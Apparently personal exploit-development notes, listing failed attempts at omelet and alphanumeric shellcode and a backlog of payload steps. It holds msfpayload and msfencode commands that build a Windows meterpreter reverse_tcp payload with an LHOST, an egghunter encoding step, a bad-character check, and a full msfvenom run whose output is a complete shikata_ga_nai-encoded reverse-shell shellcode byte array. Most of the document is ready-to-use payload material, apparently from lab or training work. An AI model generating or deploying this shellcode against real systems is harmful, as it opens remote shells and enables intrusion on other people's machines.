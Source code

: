 https://defuse.ca/online-x86-assembler.htm#disassembly2

https://www.mathsisfun.com/binary-decimal-hexadecimal-converter.html

FAILED TO:

make omelet shellcode work

make the long alpha numeric shellcode work

back log

1. Creating bigger shellcode intentionally

- ./msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.0.122 R | ./msfencode -b '0x00' -t perl -e x86/alpha_mixed (create a bigger shellcode)

2. Encoding

- Alphanumeric egghunter shellcode + restricted chars \x40\x3f\x3a\x2f (encoding from http://www.exploit-db.com/exploits/5342)

- ./msfencode -e x86/alpha_upper -i eggfile.bin -t perl (encoding)

3. Bad Characters

- !pvefindaddr compare C:\Users\ernest\Desktop\shellcode.bin (find bad characters)

```
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=136 -b="\x00\x0a\x0d\xff"  -f c
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1500 bytes
unsigned char buf[] = 

"\xd9\xc5\xbf\x56\xab\x1f\xc5\xd9\x74\x24\xf4\x58\x33\xc9\xb1"
"\x52\x31\x78\x17\x83\xc0\x04\x03\x2e\xb8\xfd\x30\x32\x56\x83"
"\xbb\xca\xa7\xe4\x32\x2f\x96\x24\x20\x24\x89\x94\x22\x68\x26"
"\x5e\x66\x98\xbd\x12\xaf\xaf\x76\x98\x89\x9e\x87\xb1\xea\x81"
"\x0b\xc8\x3e\x61\x35\x03\x33\x60\x72\x7e\xbe\x30\x2b\xf4\x6d"
"\xa4\x58\x40\xae\x4f\x12\x44\xb6\xac\xe3\x67\x97\x63\x7f\x3e"
"\x37\x82\xac\x4a\x7e\x9c\xb1\x77\xc8\x17\x01\x03\xcb\xf1\x5b"
"\xec\x60\x3c\x54\x1f\x78\x79\x53\xc0\x0f\x73\xa7\x7d\x08\x40"
"\xd5\x59\x9d\x52\x7d\x29\x05\xbe\x7f\xfe\xd0\x35\x73\x4b\x96"
"\x11\x90\x4a\x7b\x2a\xac\xc7\x7a\xfc\x24\x93\x58\xd8\x6d\x47"
"\xc0\x79\xc8\x26\xfd\x99\xb3\x97\x5b\xd2\x5e\xc3\xd1\xb9\x36"
"\x20\xd8\x41\xc7\x2e\x6b\x32\xf5\xf1\xc7\xdc\xb5\x7a\xce\x1b"
"\xb9\x50\xb6\xb3\x44\x5b\xc7\x9a\x82\x0f\x97\xb4\x23\x30\x7c"
"\x44\xcb\xe5\xd3\x14\x63\x56\x94\xc4\xc3\x06\x7c\x0e\xcc\x79"
"\x9c\x31\x06\x12\x37\xc8\xc1\x62\xc8\xd2\x10\xf5\xca\xd2\x12"
"\x8d\x42\x34\x78\x9d\x02\xef\x15\x04\x0f\x7b\x87\xc9\x85\x06"
"\x87\x42\x2a\xf7\x46\xa3\x47\xeb\x3f\x43\x12\x51\xe9\x5c\x88"
"\xfd\x75\xce\x57\xfd\xf0\xf3\xcf\xaa\x55\xc5\x19\x3e\x48\x7c"
"\xb0\x5c\x91\x18\xfb\xe4\x4e\xd9\x02\xe5\x03\x65\x21\xf5\xdd"
"\x66\x6d\xa1\xb1\x30\x3b\x1f\x74\xeb\x8d\xc9\x2e\x40\x44\x9d"
"\xb7\xaa\x57\xdb\xb7\xe6\x21\x03\x09\x5f\x74\x3c\xa6\x37\x70"
"\x45\xda\xa7\x7f\x9c\x5e\xd7\x35\xbc\xf7\x70\x90\x55\x4a\x1d"
"\x23\x80\x89\x18\xa0\x20\x72\xdf\xb8\x41\x77\x9b\x7e\xba\x05"
"\xb4\xea\xbc\xba\xb5\x3e";
```
